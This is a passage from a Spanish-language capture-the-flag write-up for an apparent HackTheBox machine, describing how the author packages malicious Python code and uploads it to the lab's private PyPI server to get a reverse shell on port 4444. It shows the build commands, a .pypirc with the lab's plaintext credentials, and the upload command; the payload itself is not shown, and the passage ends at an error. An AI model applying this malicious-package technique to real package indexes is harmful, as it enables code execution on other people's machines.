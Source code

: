 Teniendo nuestro código malicioso lo que nos queda es ejecutarlo desde la máquina víctima, ponernos en escucha y obtener la reverse Shell por el puerto **4444**. Para ello usamos:

```bash
–» python3 setup.py sdist
```

El cual nos genera el siguiente árbol de objetos.

```bash
–» tree -a
.
├── dist
│   └── pycod3ate-0.0.5.tar.gz
├── LICENSE
├── pycod3ate
│   ├── __init__.py
│   └── __init__.pyc
├── pycod3ate.egg-info
│   ├── dependency_links.txt
│   ├── PKG-INFO
│   ├── SOURCES.txt
│   └── top_level.txt
├── README.md
└── setup.py
```

En este punto cuando subía `setup.py` a la máquina e intentaba ejecutarlo no pasaba nada, se creaban los archivos y parecía que todo iba bien pero no obtenía ningún output en la reverse Shell... Me queme un poco y de nuevo recurrí a `TazWake`

Me indico que lo óptimo es crear un archivo `.pypirc` el cual contenga unas credenciales (las de **pypi** que ya encontramos) y un repositorio al cual se van a subir los objetos, así `setup.py` sabe a donde apuntar, este sería nuestro archivo `.pypirc` (que debe ser alojado en el `$HOME`).

```bash
–» cat .pypirc 
[distutils]
index-servers =
    locuras

[locuras]
repository: http://pypi.sneakycorp.htb:8080/
username: pypi
password: soufianeelhaoui
```

Y en nuestra ejecución anterior agregaremos:

```bash
–» python3 setup.py sdist register -r locuras upload -r locuras
```

Vamos a la máquina víctima, subimos el nuevo `setup.py`, subimos `.pypirc`, indiquémosle que tome el index **locuras** e intentemos conseguir la reverse Shell :)

:( Obtenemos este error:
